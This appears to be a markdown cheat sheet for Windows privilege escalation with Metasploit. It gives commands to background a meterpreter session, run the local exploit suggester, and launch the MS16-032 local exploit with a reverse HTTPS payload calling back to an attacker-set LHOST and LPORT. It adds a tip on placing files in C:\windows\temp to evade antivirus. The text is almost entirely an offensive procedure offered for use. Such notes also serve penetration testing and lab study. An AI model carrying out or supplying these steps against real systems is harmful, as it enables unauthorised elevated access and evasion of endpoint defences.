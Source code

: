 
---

### Use Scanners/Exploit in meterpreter session
set payload windows/x64/meterpreter/reverse_https
```sh
meterpreter > background
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```
#### Pick and use a suggested exploit

```shell
Post module suggests:
   exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   exploit/windows/local/ms10_092_schelevator
```
#### Choose Exploit
```sh
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <id>
set LHOST <your_ip>
set LPORT <your_port>
exploit

```

> [!NOTE] Title
> Choose different `LPORT`, Because you will get new shell session with elevated user.


> [!NOTE]
> put files in C:\windows\temp. So you may bypass AV. But you won't be able to list this directory.

